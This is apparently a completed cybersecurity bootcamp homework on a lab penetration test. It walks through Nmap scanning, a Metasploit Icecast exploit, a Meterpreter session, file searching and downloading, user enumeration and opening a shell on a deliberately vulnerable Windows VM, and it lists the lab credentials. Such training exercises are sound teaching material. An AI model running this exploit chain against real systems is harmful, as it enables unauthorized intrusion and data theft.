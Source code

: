 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`.

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Report-HW17-JeffPeterson.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sV 192.168.0.20`

      ![nmap scan](Images/nmap-sV-scan.png)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer:`searchsploit icecast`

     ![searchsploit results](Images/searchsploit-icecast.png)

3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer:`msfconsole`


4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer:`search icecast`

  - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer:`use 0`

     ![msfconsole](Images/msfconsole-search-icecast.png)


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer:`set RHOSTS 192.168.0.20`

     ![options](Images/msfconsole-exploit-icecast-Options.png)

6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer:`exploit` or `run`

     ![run exploit](Images/msfconsole-exploit-icecast.png)

7. You should now have a Meterpreter session open.

   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer:`search -f *secretfile*.*`

     ![secret-file-search](Images/meterpreter-secretfile-search.png)

  - Run the command to performs a search for the `recipe.txt` on the target.

      > Answer:`search -f *recipe*.*`

      ![recipe-file-search](Images/meterpreter-recipe-search.png)


  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file.
    - > Answer:`download /Users/IEUser/Documents/Drinks.recipe.txt`

    - ![download-recipe-file](Images/meterpreter-recipe-file-download.png)


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

  - ![Post exploit suggester](Images/post-multi-recon-local-suggester.png)


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.


#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:`run post/windows/gather/enum_logged_on_users`

  ![users](Images/meterpreter-post-loggedIn-Users.png)


B. Open a Meterpreter shell and gather system information for the target.

  > Answer:`shell`

C. Run the command that displays the target's computer system information:

   > Answer:`systeminfo`

   ![systeminfo](Images/systeminfo-01.png)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
